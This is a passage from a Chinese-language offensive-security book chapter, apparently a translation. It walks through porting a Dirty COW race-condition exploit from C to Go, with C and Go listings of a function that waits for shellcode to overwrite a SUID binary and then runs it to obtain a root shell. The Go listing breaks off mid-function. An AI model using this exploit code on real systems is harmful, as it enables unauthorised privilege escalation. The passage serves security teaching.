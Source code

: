 
*列表 9-9：Go 语言中的竞态条件函数*

竞态条件函数使用变体进行信号传递❶。这两个函数都包含`for`循环，循环执行次数非常多。C 语言版本检查`stop`变量的值，而 Go 语言版本则使用`select`语句尝试从`signals`通道读取信号。当信号存在时，函数会返回。如果没有信号等待，`default`情况会被执行。`madvise()`和`procselfmem()`函数之间的主要区别发生在`default`情况中。在我们的`madvise()`函数中，你会向`madvise()`❷函数发出 Linux 系统调用，而在`procselfmem()`函数中，你会发出 Linux 系统调用到`lseek()`❸，并将负载写入内存❹。

以下是 C 语言版本和 Go 语言版本函数的主要区别：

+   Go 语言版本使用通道来确定何时提前退出循环，而 C 语言函数使用整数值来表示在发生线程竞态条件后何时退出循环。

+   Go 语言版本使用`syscall`包来发出 Linux 系统调用。传递给函数的参数包括要调用的系统函数和其所需的参数。你可以通过查找 Linux 文档来了解函数的名称、功能和参数。这就是我们能够调用本地 Linux 函数的方式。

现在，让我们回顾一下`waitForWrite()`函数，该函数监视 SUID 是否有变化，从而执行 shellcode。C 语言版本显示在列表 9-10，Go 语言版本显示在列表 9-11。

```
void *waitForWrite(void *arg) {
    char buf[sc_len];

 ❶ for(;;) {
        FILE *fp = fopen(suid_binary, "rb");

        fread(buf, sc_len, 1, fp);

        if(memcmp(buf, sc, sc_len) == 0) {
            printf("%s is overwritten\n", suid_binary);
            break;
        }
 fclose(fp);
        sleep(1);
    }

 ❷ stop = 1;

    printf("Popping root shell.\n");
    printf("Don't forget to restore /tmp/bak\n");

 ❸ system(suid_binary);
}
```

*列表 9-10：C 语言中的* waitForWrite() *函数*

```
func waitForWrite() {
    buf := make([]byte, len(sc))
 ❶ for {
        f, err := os.Open(SuidBinary)
        if err != nil {
            log.Fatal(err)
        }
        if _, err := f.Read(buf); err != nil {
            log.Fatal(err)
        }
        f.Close()
        if bytes.Compare(buf, sc) == 0 {
            fmt.Printf("%s is overwritten\n", SuidBinary)
            break
        }
        time.Sleep(1*time.Second)
    }
 ❷ signals <- true
    signals <- true

    fmt.Println("Popping root shell")
    fmt.Println("Don't forget to restore /tmp/bak\n")
```